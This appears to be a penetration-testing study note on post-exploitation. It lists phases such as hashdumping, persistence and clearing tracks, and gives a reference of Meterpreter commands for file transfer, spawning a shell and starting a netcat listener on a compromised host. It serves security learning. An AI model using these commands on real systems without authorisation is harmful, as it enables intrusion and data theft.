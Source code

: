 <a id=7></a>
# Post-Exploitation

Post-exploitation refers to the actions taken after we've gained access to a system. This phase consists
of various sub-phases:

- Local enumeration
- Privilege escalation
- Hashdumping
- Establishing persistence
- Clearing our tracks
- Pivoting

<a id=7.1></a>
## Post-exploitation Fundamentals

<a id=7.1.1></a>
### Meterpreter Fundamentals

We will learn more advanced uses of the Meterpreter shell and how we can use it to make post-exploitation
simpler for us. 

```bash
meterpreter > ?/help
# prints the meterpreter help pages
meterpreter > sysinfo
# get system information
meterpreter > getuid
# get username id
meterpreter > background/bg/^Z
# puts the session in the background
msf6 > sessions [SESSION_ID]
# go back to [SESSION_ID]
msf6 > sessions -C [METERPRETER_COMMAND] -i [SESSION_ID]
# run [METERPRETER_COMMAND] on [SESSION_ID].
msf6 > sessions -n [NEW_SESSION_NAME] [SESSION_ID]
# give a name to a [SESSION_ID]
meterpreter > ls
# run ls on [SESSION_ID]. we can run some coreutils directly from the meterpreter session.
# but others aren't directly accesible. for example, if i wanted to run netcat, i would do the
# following:
meterpreter > execute -f nc -nlvp 9999
# you have to add "execute" before the command to execute.
meterpreter > edit [FILE]
# we can edit files on the system from a meterpreter shell.
meterpreter > download [FILE]
# download a file
meterpreter > upload /path/to/file /path/to/upload
# upload a file to /path/to/upload
meterpreter > getenv [ENV_VAR]
# get the value of an environmental variable
meterpreter > search -d /path/to/search file_to_search
# search a file in the directory /path/to/search
meterpreter > search file_to_search
# search a file in the entire system
meterpreter > search -f *.[FILE_EXTENSION]
# search all files with [FILE_EXTENSION]
meterpreter > shell
# get a shell on the pwned machine. quit it with ^C
meterpreter > ps 
# list processes running on the machine
```